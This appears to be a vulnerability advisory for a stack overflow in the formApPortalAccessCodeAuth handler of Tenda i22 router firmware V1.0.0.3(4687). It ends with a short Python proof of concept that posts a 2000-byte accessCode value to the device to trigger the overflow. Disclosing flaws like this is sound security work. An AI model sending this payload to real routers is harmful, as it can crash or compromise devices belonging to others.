




## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalAccessCodeAuth` function. This function accepts `accessCode`, `data` and `acceInfo` parameters from a POST request. All of the parameters are later copied by `strcpy` or `sprintf` to variables on the stack, causing a stack overflow.







## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAccessCodeAuth"
payload = b"a"*2000

data = {
    "accessCode": payload,
    "data": "1",
    "acceInfo": "2"
}

response = requests.post(url, data=data)
print(response.text)
```


